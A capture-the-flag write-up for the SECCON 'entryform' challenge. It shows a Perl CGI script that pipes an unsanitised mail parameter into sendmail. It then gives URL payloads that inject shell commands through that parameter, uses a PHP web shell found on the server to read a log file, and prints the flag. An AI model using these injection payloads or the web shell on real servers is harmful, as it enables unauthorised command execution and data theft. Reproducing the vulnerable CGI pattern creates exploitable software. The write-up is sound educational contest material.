



## Challenge

Find the flag at http://entryform.pwn.seccon.jp/register.cgi

## Solution

Navigate to the root path of the url http://entryform.pwn.seccon.jp/ to see:



Source of the CGI script available on: http://entryform.pwn.seccon.jp/register.cgi_bak

```perl
#!/usr/bin/perl
# by KeigoYAMAZAKI, 2015.11.02-

use CGI;
my $q = new CGI;

print<<'EOM';
Content-Type: text/html; charset=utf-8

...

EOM

if($q->param("mail") ne '' && $q->param("name") ne '') {
  open(SH, "|/usr/sbin/sendmail -bm '".$q->param("mail")."'");
  print SH "From: keigo.yamazaki\@seccon.jp\nTo: ".$q->param("mail")."\nSubject: from SECCON Entry Form\n\nWe received your entry.\n";
  close(SH);

  open(LOG, ">>log"); ### <-- FLAG HERE ###
  flock(LOG, 2);
  seek(LOG, 0, 2);
  print LOG "".$q->param("mail")."\t".$q->param("name")."\n";
  close(LOG);

  print "<h1>Your entry was sent. <a href='?' style='color:#52d6eb'>Go Back</a></h1>";
  exit;
}

print <<'EOM';
```

From here we can see that we must use code injection in the mail parameter. First problem, the interactive sendmail (-bm) won't allow us to see output of our code injection. To avoid it, just inject another parameter (in my case -bp) as found in the sendmail manual `man sendmail`. So -bp is another parameter that will exit sendmail with an error.

The second problem is that we don't have permission to cat the log file using the CGI script, so we'll explore a little.

Payload:

`/register.cgi?name=notempty&mail='%20-bp|<command here>%20%23`

In this case we want to see the files so we use `ls`:

`/register.cgi?name=notempty&mail='%20-bp|ls%20%23`



We can see that there is a hidden folder called `SECRETS`, so let's look inside:

`/register.cgi?name=notempty&mail=%27%20-bp|ls%20SECRETS%20%23`



Another interesting file, let's view the contents:

`/register.cgi?name=notempty&mail=%27%20-bp|cat%20SECRETS%2fbackdoor123.php%20%23`

We view the sourcecode of the page and we then see:

```php
<pre><?php system($_GET['cmd']); ?></pre>
```

Finally, `cat` the flag:

`/SECRETS/backdoor123.php?cmd=cat%20../log`

**SECCON{Glory_will_shine_on_you.}**

## Notes

Using `ls -la` is a better option as we see:

```
dr-xr-xr-x 3 cgi    cgi  4.0K Dec  1 22:29 .
drwxr-xr-x 4 root   root 4.0K Dec  1 22:57 ..
-r--r--r-- 1 root   root  221 Dec  5 15:18 .htaccess
dr-xr-xr-x 2 root   root 4.0K Dec  1 21:52 SECRETS
-r---w---- 1 apache cgi  2.2M Dec  6 02:11 log
-r--r--r-- 1 root   root 1.2K May 15  2015 logo.png
-r-xr-xr-x 1 cgi    cgi  1.6K Dec  5 20:32 register.cgi
-r--r--r-- 1 root   root 1.6K Dec  1 22:25 register.cgi_bak
```

Using ID we see:
```uid=1001(cgi) gid=1001(cgi) groups=1001(cgi),1003(alien)```

But the ID of backdoor123.php is:
```uid=48(apache) gid=48(apache) groups=48(apache),1003(alien)```

## Solved by
r00t
